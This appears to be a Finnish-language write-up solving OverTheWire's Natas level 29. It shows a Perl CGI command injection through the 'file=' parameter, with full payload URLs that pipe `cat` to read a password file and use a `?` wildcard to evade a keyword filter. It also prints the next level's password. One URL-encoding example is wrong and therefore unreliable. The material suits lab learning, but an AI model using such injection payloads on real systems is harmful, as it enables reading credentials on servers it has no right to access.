 
Tässä on muutamia vaihtoehtoja kiellettyjen merkkijonojen ohittamiseen. Löytämäni vaihtoehto sai inspiraationsa tästä CTF-kuvauksesta. Se käyttää jokerimerkkejä hakemiston tai tiedostonimen löytämiseen. Toi polku `/natas` voi olla ratkaisu polku.

## ratkaisua osa

**Seuraavaksi, kohti ratkaisua:**
Tässä tasossa puhuttu kokoajan Perl underground juttua - niin kyseessä on "natas" ja mitä tapahtuu muutettaan toi sana vähäsen. Suodatettaan ja muutettaan sitä yhdeksi erikoismerkiksi just esim. kysymysmerkki ? 

Tämä on virallinen ratkaisu: `http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/n?tas_webpass/n?tas30%20%00` - koska yritettään hakea se linux hakemisto polkun salasansa `etc/natas_webpass/natas30`. 

**natas30 : WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH**

## ratkaisu osa - välivaihe 

Yhdessä testissä: `http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/natas_webpass/natas30%00` - koska tämä url parametri tässä on suodatusta estääksen sen siksi saastu vihje "meeeep"

**miksi näin?**
Otin **natas** - sanasta, että merkitsee/korvaa erikoismerkejä tai muulla tahansa mielikuvituksella just jokerimerkkiäyhdistelmällä niin näin saa se tuloksensa. Koska erikoismerkien ideana on **kiertää suodatusta**, vaikka palvelin suodattaa suoraan sanan “natas”. Se estää komennon ennen kuin shell pääsee käsittelemään sitä. Vaikka se olisi teknisesti oikein, suodatus torppaa sen. Siksi harjoituksessa kierettään vastauksena: `|cat /etc/n?tas_webpass/n?tas30`

| Komento                                 | Toimiiko? | Selitys                                                  |
|-----------------------------------------|-----------|-----------------------------------------------------------|
| `cat /etc/natas_webpass/natas30`        | ❌ Ei      | Suodatus estää suoraan sanan “natas”                     |
| `cat /etc/n?tas_webpass/n?tas30`        | ✅ Kyllä   | `?` toimii jokerimerkkinä ja kiertää suodatuksen         |

Samahan vastauksen kohdalla on **URL-enkoodattuja merkejä** - el ine on muunnettu muoton, joka toimii HTTP osoitteessa. Kun selain tai jos käytettäisiin *curl* komentoa lähettäkseen palvelimelle , ne **dekoodataan automaattisesti** ennen käsittelyä. Vaikka tässä tasossa kokoajan antoi vihjeenä **Perl CGI skriptin** tapaa käsitellä URL parametrejä - erityisesti siitä miten se tulkitsee `file=` osan ja välittää sen suoraan **shelliin** ilman kunnollista suodatusta.

Muutama enkoodatut merkit:
- `\` - `%2F`
- `?` - `%3F`
- natas30 - `n%3Ftas30`


Tässä harjoituksessa pitäis käyttää tätä: `etc/natas_webpass/natas30` - ja tästä muuttaa se perl underground ja käyttäen erikoismerkiä ja siksi vastaus on: `|cat%20/etc/n?tas_webpass/n?tas30%20%00`

